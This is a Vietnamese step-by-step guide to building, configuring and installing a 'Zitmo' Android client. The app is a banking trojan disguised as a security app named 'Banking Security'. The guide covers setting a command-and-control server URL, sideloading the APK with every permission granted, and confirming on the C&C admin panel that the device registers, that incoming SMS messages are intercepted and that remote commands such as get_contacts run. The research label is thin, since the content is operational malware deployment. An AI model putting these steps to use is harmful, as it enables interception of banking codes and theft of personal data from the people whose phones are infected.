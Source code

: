 # Hướng dẫn xây dựng APK cho Zitmo Android Client

Tài liệu này cung cấp các bước cụ thể để xây dựng APK từ mã nguồn `ZitmoAndroidClient.java` đã cung cấp.

## Yêu cầu
- Android Studio
- JDK 8 trở lên
- Thiết bị Android thật hoặc máy ảo

## Các bước thực hiện

### 1. Tạo project Android mới

1. Mở Android Studio
2. Chọn `File > New > New Project...`
3. Chọn template "Empty Views Activity"
4. Cấu hình project:
   - Name: Banking Security
   - Package name: com.research.banking
   - Language: Java
   - Minimum SDK: API 21 (Android 5.0)
   - Build configuration language: Groovy DSL
5. Nhấn "Finish"

### 2. Thêm các thư viện cần thiết

Mở file `app/build.gradle` và thêm các thư viện trong phần `dependencies`:

```gradle
dependencies {
    implementation 'androidx.appcompat:appcompat:1.6.1'
    implementation 'com.google.android.material:material:1.9.0'
    implementation 'androidx.constraintlayout:constraintlayout:2.1.4'
    implementation 'androidx.cardview:cardview:1.0.0'
    // ... các dependencies mặc định khác
}
```

### 3. Thêm các file mã nguồn và tài nguyên

1. Thay thế nội dung file `MainActivity.java` bằng class `MainActivity` từ file `ZitmoAndroidClient.java`
2. Tạo các class Java mới cho các thành phần:
   - `SMSReceiver.java` - copy từ class `SMSReceiver` trong `ZitmoAndroidClient.java`
   - `BootReceiver.java` - copy từ class `BootReceiver` trong `ZitmoAndroidClient.java`
   - `ZitmoService.java` - copy từ class `ZitmoService` trong `ZitmoAndroidClient.java`
   - `ZitmoUtils.java` - copy từ class `ZitmoUtils` trong `ZitmoAndroidClient.java`

3. Thay thế file `AndroidManifest.xml` bằng file đã cung cấp

4. Thêm layout và drawable:
   - Thay thế file `res/layout/activity_main.xml` bằng file `activity_main.xml` đã cung cấp
   - Tạo file drawable mới `res/drawable/ic_secure.xml` với nội dung từ file `ic_secure.xml` đã cung cấp

5. Thêm strings vào `res/values/strings.xml`:

```xml
<resources>
    <string name="app_name">Bảo Mật Ngân Hàng</string>
</resources>
```

### 4. Cấu hình URL máy chủ C&C

Mở file `ZitmoUtils.java` và cập nhật URL máy chủ C&C:

```java
private static final String SERVER_URL_DEFAULT = "http://YOUR_SERVER_IP:5000";
```

Thay `YOUR_SERVER_IP` bằng địa chỉ IP hoặc tên miền của máy chủ C&C.

### 5. Xây dựng APK

1. Đảm bảo rằng Gradle sync đã hoàn tất (Android Studio sẽ tự động thực hiện khi bạn thay đổi file `build.gradle`)
2. Chọn `Build > Build Bundle(s) / APK(s) > Build APK(s)`
3. Đợi quá trình xây dựng hoàn tất
4. Android Studio sẽ hiển thị thông báo khi APK được tạo thành công. Nhấn "locate" để mở thư mục chứa file APK

APK được tạo sẽ nằm trong thư mục: `app/build/outputs/apk/debug/app-debug.apk`

### 6. Cài đặt APK trên thiết bị

1. Chuyển file APK đến thiết bị Android (qua USB, email, cloud storage, v.v.)
2. Trên thiết bị Android, mở Settings > Security
3. Bật "Unknown Sources" hoặc "Install unknown apps" (tùy thuộc vào phiên bản Android)
4. Mở file APK và nhấn "Install"
5. Mở ứng dụng sau khi cài đặt xong
6. Cấp tất cả các quyền được yêu cầu
7. Nhấn "Kích hoạt ngay" để khởi động dịch vụ

## Xác minh APK hoạt động

1. Khởi động máy chủ C&C trên máy tính của bạn
2. Mở bảng điều khiển admin tại `http://YOUR_SERVER_IP:5000/admin`
3. Kiểm tra tab "Thiết bị" để xem thiết bị Android của bạn đã đăng ký thành công hay chưa
4. Thử gửi tin nhắn SMS đến thiết bị và kiểm tra tab "SMS đã chặn" để xem tin nhắn đã được chặn thành công hay chưa
5. Thử gửi lệnh đến thiết bị (như `get_contacts`) và kiểm tra xem lệnh có được thực thi thành công hay không
